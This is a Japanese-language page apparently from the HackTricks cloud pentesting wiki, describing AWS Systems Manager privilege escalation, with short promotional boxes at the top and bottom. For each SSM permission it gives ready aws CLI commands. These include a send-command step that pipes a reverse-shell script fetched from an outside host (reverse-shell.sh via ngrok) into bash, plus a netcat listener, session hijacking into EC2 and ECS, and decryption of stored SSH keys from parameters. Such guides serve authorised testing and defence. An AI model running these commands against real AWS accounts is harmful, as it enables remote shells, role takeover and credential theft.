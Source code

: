 # AWS - SSM 特権昇格

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する。
* **ハッキングトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## SSM

SSMに関する詳細情報は次を参照してください:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** 権限を持つ攻撃者は、Amazon SSMエージェントを実行しているインスタンスで**コマンドを実行**し、その中で実行されているIAMロールを**侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
次に、すでに侵害されたEC2インスタンス内で特権を昇格させるためにこのテクニックを使用している場合は、次のようにローカルでrevシェルをキャプチャできます：
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在的影響:** SSM エージェントが実行されているインスタンスにアタッチされている EC2 IAM ロールへの直接的な権限昇格。

### `ssm:StartSession`

**`ssm:StartSession`** 権限を持つ攻撃者は、Amazon SSM エージェントが実行されているインスタンスで **SSH のようなセッションを開始** し、その中で実行されている IAM ロールを **侵害** することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
セッションを開始するには、**SessionManagerPlugin** がインストールされている必要があります: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在的な影響:** 実行中のインスタンスにアタッチされているEC2 IAMロールへの直接権限昇格が可能になります。SSMエージェントが実行されている場合。

#### ECSへの権限昇格

**ECSタスク**が**`ExecuteCommand`が有効**な状態で実行されると、十分な権限を持つユーザーは`ecs execute-command`を使用してコンテナ内でコマンドを実行できます。\
[**ドキュメント**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)によると、これは、"exec"コマンドを開始するデバイスとSSMセッションマネージャーを介してターゲットコンテナ間に安全なチャネルを作成することで行われます。\
したがって、`ssm:StartSession`権限を持つユーザーは、そのオプションが有効になっているECSタスク内でシェルを取得できます。単に次のコマンドを実行します:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**潜在的影響:** `ExecuteCommand` が有効になっている実行中のタスクにアタッチされた `ECS` IAM ロールへの直接的な権限昇格。

### `ssm:ResumeSession`

**`ssm:ResumeSession`** 権限を持つ攻撃者は、Amazon SSM エージェントが実行されているインスタンスで **SSH のようなセッションを再開** し、**切断された** SSM セッション状態で実行されている IAM ロールを **侵害** することができます。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在的影響:** SSM エージェントが実行され、セッションが切断されている場合、実行中のインスタンスにアタッチされた EC2 IAM ロールへの直接的な権限昇格が可能です。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

上記の権限を持つ攻撃者は、**SSM パラメータ**をリストアップし、**平文で読み取る**ことができます。これらのパラメータには、SSH キーまたは API キーなどの**機密情報**が頻繁に含まれています。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在的影響:** パラメータ内の機密情報を見つける。

### `ssm:ListCommands`

この権限を持つ攻撃者は、送信されたすべての**コマンド**をリストアップし、それらから**機密情報**を見つけることができるかもしれません。
```
aws ssm list-commands
```
**潜在的影響:** コマンドライン内の機密情報を見つける。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

これらの権限を持つ攻撃者は、送信されたすべての**コマンド**をリストアップし、生成された出力を読むことができ、**機密情報**を見つける可能性があります。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在的影響:** コマンドラインの出力内に機密情報を見つける。

### Codebuild

Codebuildプロジェクト内に入るためにSSMを使用することもできます:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**する
* **ハッキングトリックを共有するためにPRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出**する

</details>
